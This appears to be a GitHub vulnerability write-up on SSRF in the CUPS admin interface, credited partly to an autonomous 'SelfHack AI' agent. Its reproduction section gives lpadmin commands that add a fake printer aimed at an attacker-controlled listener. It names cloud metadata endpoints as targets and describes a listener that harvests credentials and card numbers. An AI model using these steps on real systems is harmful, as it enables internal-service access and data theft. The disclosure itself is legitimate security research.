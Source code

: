 <img width="1918" height="321" alt="image" src="https://github.com/user-attachments/assets/5eeea057-13d9-4502-8327-dfa64af3f8f0" />
<img width="2698" height="422" alt="image" src="https://github.com/user-attachments/assets/159525ba-b207-4db5-bf36-33c79c2adb71" />
<img width="1712" height="236" alt="image" src="https://github.com/user-attachments/assets/08af1e9a-d40b-45fa-85ce-3974f306678b" />


## SSRF via Fake Printer Injection in CUPS
**OE19992541396** — Reported: 2024-09-08  
**Finder / Reporter:** SelfHack AI / Alperen T. Ugurlu

> **WARNING:** This PoC is intended for authorized, isolated lab environments only. Do **NOT** run this against production systems or systems you do not own or have explicit permission to test. Unauthorized testing may be illegal.

---

## How SelfHack AI Discovered This 

SelfHack AI read the history books — the PrintNightmare saga (CVE‑2021‑1675 / CVE‑2021‑34527) — and used that story as a lesson, not a recipe. It simulated those failure modes inside a safe lab, asking a simple, dangerous question: what would a spooler do if told to talk to the wrong place? The agent then crawled into the CUPS admin UI, mapped the Add‑Printer workflow, and liked the spooler executable as a promising character in the plot. With needle‑precise tests and quiet runtime tracing, it fed crafted inputs and watched the spooler binary open a socket and walk straight to an attacker‑controlled listener — headers and timing in hand, the scene was undeniable. That single, observable handoff (admin UI → spooler process → outbound HTTP) turned a theory into a confirmed SSRF finding. This was not luck: it was autonomous learning — public research taught the agent what to suspect, simulations taught it how to test, and controlled observation let it prove the crime on a macOS stage.


## TL;DR
CUPS (Common UNIX Printing System) admin web interface (`http://localhost:631/admin`) can be induced to initiate HTTP requests when a malicious or fake printer connection URI (e.g., `http://attacker:8080`) is added via the **Add Printer** flow. This allows SSRF and potential disclosure of sensitive data or access to internal services.

---

## Impact
- SSRF: server-side requests to attacker-controlled or internal endpoints.  
- Possible exposure of sensitive headers/body content.  
- Potential access to cloud metadata endpoints (e.g., `169.254.169.254`) or other internal services.  
- Enables further exploitation or lateral movement when combined with other vulnerabilities.

---

## Affected Components / Environment
- CUPS admin web interface (`/admin`) — admin privileges required to add printers.  
- Observed on macOS and Linux systems with CUPS accepting arbitrary HTTP URIs without sufficient validation.  
- PoC testing requires: CUPS host + attacker-controlled HTTP listener (Flask PoC included in this repo).

---

## Root Cause
CUPS does not adequately validate or restrict admin-supplied printer connection URIs. When a connection URI is accepted, the CUPS daemon attempts to contact that URI — enabling SSRF when the URI points to internal or attacker-controlled addresses.

---

## Reproduction (authorized lab only)

### 1) Using the CUPS Admin UI
1. Open the CUPS admin UI: `http://localhost:631/admin` (admin privileges required).  
2. Go to **Add Printer**.  
3. In the **Connection** field enter:  
http://<POC_SERVER_IP>:8080

bash
Kodu kopyala
4. Complete the printer addition process.  
5. The PoC listener (see below) should receive and log the request from the CUPS server.

### 2) Start the PoC listener
```bash
cd ssrf-cups-fake-printer
chmod +x poc.py
./poc.py // starts the Flask listener on port 8080.
```
The listener logs incoming requests and scans headers/body for basic sensitive patterns.

### 3) Example using lpadmin (Linux/macOS)
```bash
sudo lpadmin -p fake-printer -E -v "http://<POC_SERVER_IP>:8080" -m everywhere
sudo cupsenable fake-printer
sudo lpstat -p fake-printer -l
```
These commands programmatically add a printer that points at the PoC listener, causing CUPS to attempt the connection.

# PoC Listener
See poc.py — a minimal Flask-based HTTP listener included in this repository. It:

Logs request metadata (client IP, headers, body).
Searches request content and headers for simple sensitive-data patterns (email, basic "password" patterns, credit-card-like numbers, API key heuristics).
Returns a JSON summary of what it observed.

Note: The PoC is intentionally simple for demonstration and triage. Do not treat it as production monitoring code.

# Disclosure Timeline
```bash
2024-09-08 — Vulnerability reported (OE19992541396)
2024-09-30 — Reporter follow-up
2024-10-02 — PoC provided to vendor
2025-09-15 - Fix Date
```
